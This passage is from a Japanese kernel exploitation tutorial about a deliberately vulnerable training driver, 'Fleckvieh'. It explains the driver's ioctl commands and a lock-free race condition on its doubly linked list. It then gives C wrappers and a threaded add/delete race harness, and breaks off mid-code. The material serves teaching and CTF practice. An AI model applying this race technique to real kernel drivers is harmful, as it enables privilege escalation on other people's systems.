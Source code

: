 ```c
  }
}
```
`CMD_ADD`はリストに`blob_list`を追加します。各`blob_list`は0x1000バイト以下のデータを持ち、内容は任意に設定できます。また、追加時にランダムにIDが割り振られ、`ioctl`の返り値としてユーザー側が貰えます。ユーザーは以降そのIDを使って、その`blob_list`を操作できます。
`CMD_DEL`は、IDを渡すことで対応する`blob_list`をリストから破棄できます。
`CMD_GET`は、IDとバッファおよびサイズを指定して、対応する`blob_list`のデータをユーザー空間にコピーします。
最後に`CMD_SET`は、IDとバッファおよびサイズを指定して、対応する`blob_list`にユーザー空間からデータをコピーします。

今までのモジュールと同様にデータを保存できる機能ですが、Fleckviehではリストでデータを管理しており、複数のデータを保存できるようになっています。

## 脆弱性の確認
LK01をすべて勉強した方なら脆弱性は一目瞭然でしょう。どこの処理にもロックが取られていないため、簡単にデータ競合が発生します。しかし、この競合をexploitしようとすると問題が発生します。
データを双方向リストという複雑な構造で管理しているため、削除するタイミングでデータを読み書きしようとしても、unlinkのタイミングで書き込もうとする可能性があり、リンクやカーネルヒープの状態が破壊されてしまいます。すると、race中にクラッシュしたり、Use-after-Freeができたかを判定できなかったりと困ります。
実際にraceを書いて確認しましょう。
```c
int fd;

int add(char *data, size_t size) {
  request_t req = { .size = size, .data = data };
  return ioctl(fd, CMD_ADD, &req);
}
int del(int id) {
  request_t req = { .id = id };
  return ioctl(fd, CMD_DEL, &req);
}
int get(int id, char *data, size_t size) {
  request_t req = { .id = id, .size = size, .data = data };
  return ioctl(fd, CMD_GET, &req);
}
int set(int id, char *data, size_t size) {
  request_t req = { .id = id, .size = size, .data = data };
  return ioctl(fd, CMD_SET, &req);
}

int race_win;

void *race(void *arg) {
  int id;
  while (!race_win) {
    id = add("Hello", 6);
    del(id);
  }
}

int main() {
  fd = open("/dev/fleckvieh", O_RDWR);
  if (fd == -1) fatal("/dev/fleckvieh");

  race_win = 0;

  pthread_t th;
  pthread_create(&th, NULL, race, NULL);

  int id;
  for (int i = 0; i < 0x1000; i++) {
    id = add("Hello", 6);
    del(id);
  }
  race_win = 1;
  pthread_join(th, NULL);

```